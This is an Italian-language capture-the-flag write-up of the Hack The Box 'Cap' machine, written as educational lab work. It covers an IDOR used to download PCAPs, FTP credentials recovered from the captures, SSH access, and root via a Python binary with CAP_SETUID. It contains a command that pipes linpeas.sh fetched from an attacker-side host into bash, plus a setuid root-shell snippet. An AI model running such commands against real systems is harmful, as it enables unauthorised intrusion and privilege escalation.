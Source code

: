 ### **Write-up HTB Machine "Cap"**

#### **1. Panoramica della Macchina**
- **Difficoltà**: Facile (Linux)
- **Servizi Principali**: HTTP (Network Capture Tool), FTP, SSH
- **Vulnerabilità Chiave**: IDOR → Credenziali in chiaro → Escalation privilegi via capability `CAP_SETUID`

#### **2. Riepilogo dell'Attacco**
1. **Enumeration**: Scansione con Nmap rivela porte aperte (21/FTP, 22/SSH, 80/HTTP).
2. **IDOR Exploit**: Manipolazione parametro ID per scaricare PCAP non autorizzati.
3. **Analisi PCAP**: Identificazione credenziali FTP/SSH in chiaro.
4. **Foothold**: Accesso SSH con credenziali rubate.
5. **Privilege Escalation**: Sfruttamento della capability `CAP_SETUID` assegnata a Python.

---

#### **3. Vulnerabilità IDOR: Dettagli Tecnici**
**Definizione**:  
L'Insecure Direct Object Reference (IDOR) permette a un utente di accedere a risorse non autorizzate manipolando identificatori (es: numeri progressivi).

**Esempio Pratico**:  
```
http://10.10.10.56/data/[ID]
```
Modificando `[ID]` (es: da 2 a 1 o 3), è possibile scaricare PCAP appartenenti ad altri utenti.

**Impatto**:  
- Esposizione credenziali FTP: `utente:password`
- Accesso a dati sensibili di rete

**Prevenzione**:  
- Validazione autorizzazioni lato server
- Utilizzo di UUID non sequenziali
- Crittografia del traffico (es: SFTP invece di FTP)

---

#### **4. Walkthrough dell'Exploit**

**Step 1: Scansione Iniziale**  
```bash
nmap -sV -Pn 10.10.10.56
```
**Risultati**:  
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1
80/tcp open  http    gunicorn
```

**Step 2: Scoperta IDOR**  
1. Visitare `http://10.10.10.56/data/2`
2. Modificare manualmente l'ID nell'URL:
   ```
   http://10.10.10.56/data/1 → PCAP di un altro utente
   ```

**Step 3: Analisi PCAP con Wireshark**  
- Filtro FTP: `ftp.request.command == "PASS"`
- Credenziali esposte:  
  ```
  USER: utente
  PASS: password123!
  ```

**Step 4: Accesso SSH**  
```bash
ssh utente@10.10.10.56
```

---

#### **5. Privilege Escalation (CAP_SETUID)**
**Identificazione della Vulnerability**:  
```bash
# Creazione di un server HTTP che serve il contenuto della directory corrente sulla macchina attaccante
# dove ho scaricato linpeas.sh
python -m http.server 80

# Esecuzione linPEAS
curl http://<IP_ATTACCANTE>/linpeas.sh | bash
```
**Finding Critico**:  
```
╔══════════╣ Capabilities
/usr/bin/python3.8 = cap_setuid+ep
```

**Exploit con Python**:  
```python
import os
os.setuid(0)  # Imposta UID a root (0)
os.system("/bin/bash")
```
**Risultato**:  
```
root@cap:/home/utente# id
uid=0(root) gid=1000(utente)
```

---

#### **6. Raccomandazioni di Sicurezza**
1. **FTP**: Sostituire con SFTP/FTPS
2. **IDOR**: Implementare controlli di autorizzazione
3. **Capabilities**: Rimuovere `CAP_SETUID` da Python

